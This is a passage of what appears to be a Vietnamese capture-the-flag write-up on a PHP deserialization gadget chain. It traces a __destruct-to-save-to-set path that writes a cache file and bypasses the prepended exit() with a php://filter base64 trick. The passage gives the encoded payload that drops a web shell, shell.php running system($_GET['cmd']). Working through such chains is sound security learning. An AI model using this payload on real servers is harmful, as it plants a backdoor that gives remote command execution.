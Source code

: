 - filename: được gán bằng `$this->getCacheKey($name)` với `$name` là tham số truyền vào và được prepend với một giá trị trong `options['prefix']` của class.
```php
    public function getCacheKey(string $name): string {
        return $this->options['prefix'] . $name;
    }
``` 
- data: được gán bằng `$this->serialize($value)` với `$value` là tham số truyền vào và `$serialize` lấy từ một giá trị trong `options['serialize']` của class.
```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }
```
- expire: được gán bằng `$this->getExpireTime($expire);` với `$expire` là tham số truyền vào
```php
    protected function getExpireTime($expire): int {
        return (int) $expire;
    }
```

Nhưng ở đây nảy sinh ra một vấn đề 🤔, vì `$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;` $data truyền vào mặc dù là một "User-Controllable Input" nhưng bởi vì được append vào cuối chuỗi nên khi thực thi shell thì sẽ thoát do `exit()`. [Đây](https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list) là một bài post hay về các cách bypass hàm này
và mình sẽ làm theo cách base64 decode.

Đến đây ta biết được last gadget sẽ là method `set()` của class B vậy class A sẽ làm nhiệm vụ chain tới B. Nhìn lại source thì mình phát hiện được magic method `__destruct` gọi tới `save()` ở trong `save()` gọi `$this->store->set($this->key, $contents, $this->expire);` => cần gán `store = new class B()`. Và `$key, $content, $expire` sẽ ứng với `$name, $value, $expire`

- key = "shell.php"
- expire gán đại bằng "bla".
- content được gán bằng return value của `$this->getForStorage();`, mình sẽ contruct sao cho `getForStorage()` trả về `[[],"PD9jdWMgY3VjdmFzYigpOz8+"]`
  - `$cache = array();`
  - `$complete = base64_encode("xxx".base64_encode('<?php system($_GET[\'cmd\'])?>'));`  ở đây cần thêm vào trước 3 kí tự bởi vì `<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n` sẽ biến thành `php//000000000000exit` khi dùng php wrapper -> length = 21, mà một nhóm chứa 4 kí tự base64 sẽ được decode thành 3 bytes nên ta phải thêm 3 bytes `xxx` vào trước để tránh làm "hỏng" web shell.


Sau cùng `$value="W1tdLCJQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXeWRqYldRblhTa1wvUGc9PSJd"` nên ở đoạn code `$data = $this->serialize($value);` cần base64 decode trở lại và `$data` sẽ bằng `[[],"PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk\/Pg=="]` -> `$this->options['serialize'] = "base64_decode"`. Lần decode cuối cùng là lúc ghi vào file `shell.php` dùng php wrapper và lưu ý các kí tự không hợp lệ sẽ bị bỏ qua. 
